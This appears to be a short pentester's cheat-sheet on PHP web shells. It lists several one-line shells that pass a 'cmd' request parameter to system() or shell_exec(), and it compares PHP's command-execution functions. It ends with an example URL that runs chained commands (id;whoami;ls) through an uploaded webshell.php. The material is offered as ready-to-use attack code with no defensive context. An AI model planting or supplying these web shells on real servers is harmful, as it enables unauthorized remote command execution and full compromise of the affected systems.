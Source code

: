 
Garr uses: `<?php system($_GET['cmd']);?>`

```php
<?php
    echo system($_GET["cmd"]);
?>
```

```php
<?php
    echo system($_REQUEST["cmd"]);
?>
```

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

`$_POST` can catch the data which is sent using POST method
`$_GET` can catch the data which is sent using GET method
`$_REQUEST` can catch the data which is sent using **both POST & GET methods**

<font color=orange>echo var_dump($a) might be better than echo - try this!</font>

**exec()**: returns the last line of output from the command and flushes nothing.
**shell_exec()**: returns the entire output from the command and flushes nothing.
**system()**: returns the last line of output from the command and tries to flush the output buffer after each line of the output as it goes.
**passthru()**: returns nothing and passes the resulting output without interference to the browser, especially useful when the output is in binary format.

maybe use (`2>&1`) too

Use by entering a URL and "view source" for prettier output
http://test.com/uploaded-files/webshell.php?cmd=id;whoami;ls

This also uses the fact that ; at a shell prompt makes it possible to run several commands after each other

